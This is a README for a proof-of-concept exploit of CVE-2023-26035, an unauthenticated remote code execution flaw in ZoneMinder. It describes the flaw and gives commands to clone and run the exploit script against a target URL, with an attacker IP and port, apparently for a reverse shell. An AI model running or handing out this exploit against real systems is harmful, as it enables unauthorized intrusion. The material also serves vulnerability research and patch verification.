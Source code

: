 # CVE-2023-26035
Unauthenticated RCE in ZoneMinder Snapshots - PoC Exploit

![alt img](https://rvizx.github.io/CVE-2023-26035.png?raw=true)

### Description
ZoneMinder versions prior to 1.36.33 and 1.37.33 are vulnerable to Unauthenticated Remote Code Execution due to missing authorization checks in the snapshot action. 

### Usage

```
git clone https://github.com/rvizx/CVE-2023-26035
cd CVE-2023-26035
python3 exploit.py
```

```
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```

#### Requirements

```
pip3 install beautifulsoup4
```

### Credits
[UnblvR](https://twitter.com/Unblvr1) discovered the vulnerability. 
